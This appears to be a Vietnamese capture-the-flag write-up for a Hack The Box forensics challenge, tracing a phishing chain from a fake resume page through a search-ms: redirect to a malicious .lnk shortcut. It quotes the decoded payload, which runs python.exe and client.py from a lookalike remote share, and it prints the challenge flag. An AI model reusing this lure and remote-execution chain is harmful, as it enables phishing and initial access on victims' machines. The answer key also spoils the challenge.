




# A new Hire

### Details:
The Royal Archives of Eldoria have recovered a mysterious document—an old resume once belonging to Lord Malakar before his fall from grace. At first glance, it appears to be an ordinary record of his achievements as a noble knight, but hidden within the text are secrets that reveal his descent into darkness.

### Solution:
Ví dụ Docker: `94.237.52.11:42286`

Ta có file `email.eml` nhưng có vẻ không quan trọng
Truy cập trang web, sau khi đợi loading nó sẽ hiện ra button `View Full Resume`. Ta thử `Ctrl-U` để xem bên trong có gì.
Ta thấy được một đoạn code Javascript:

```js
<script defer="defer">
    setTimeout(() => {
      document.getElementById('loading').style.display = 'none';
      document.getElementById('main-content').style.display = 'flex';
    }, 5000);

    function getResume() {
      window.location.href=`search:displayname=Downloads&subquery=\\\\${window.location.hostname}@${window.location.port}\\3fe1690d955e8fd2a0b282501570e1f4\\resumes\\`;
    }
</script>
```

Function `getResume()`, thực hiện nhiệm vụ điều hướng browser tới URL chỉ định. Ta sẽ thử run nó trên Console (hoặc đơn giản là click vào nút `View Full Resume`)



Nó sẽ điều hướng ta vào Windows Explorer





Ta có link trên Explorer:

`search-ms:displayname=Downloads&subquery=%5C%5C94.237.52.11@42286%5C3fe1690d955e8fd2a0b282501570e1f4%5Cresumes%5C`

Nếu decode ta có 

`search-ms:displayname=Downloads&subquery=\\94.237.52.11@42286\3fe1690d955e8fd2a0b282501570e1f4\resumes\`

Về cơ bản Windows Explorer tìm kiếm tệp trong thư mục `resumes\` nằm trên máy chủ `94.237.52.11` qua cổng `42286`. Ta có được file `Resume.pdf .lnk`, nó là 1 shortcut của 1 application, tiến hành GET thông tin trong đó:



Ta được 1 đoạn Base64, tiến hành decode ta được thông tin (Base64, Remove Null Bytes):
```
[System.Diagnostics.Process]::Start('msedge', 'http://storage.microsoftcloudservices.com:57426/3fe1690d955e8fd2a0b282501570e1f4/resumesS/resume_official.pdf');
\\storage.microsoftcloudservices.com@57426\3fe1690d955e8fd2a0b282501570e1f4\python312\python.exe \\storage.microsoftcloudservices.com@57426\3fe1690d955e8fd2a0b282501570e1f4\configs\client.py
```
Ta được 3 link mới, ta sẽ biết được mình phải request lấy file về phân tích. (Thay đổi host thành địa chỉ Docker)
```note
Ví dụ với link: \\94.237.52.11@42286\3fe1690d955e8fd2a0b282501570e1f4\resumesS\
Encode URL để nhập vào Explorer: %5C%5C94.237.52.11@42286%5C3fe1690d955e8fd2a0b282501570e1f4%5CresumesS%5C
Paste URL mới vào phần subquery để truy cập.
```

Trong file `client.py` có một đoạn đã bị encrypt Base64
`
SFRCezRQVF8yOF80bmRfbTFjcjBzMGZ0X3MzNHJjaD0xbjF0MTRsXzRjYzNzISF9Cg==
`

Ta có được flag:

`HTB{4PT_28_4nd_m1cr0s0ft_s34rch=1n1t14l_4cc3s!!}`


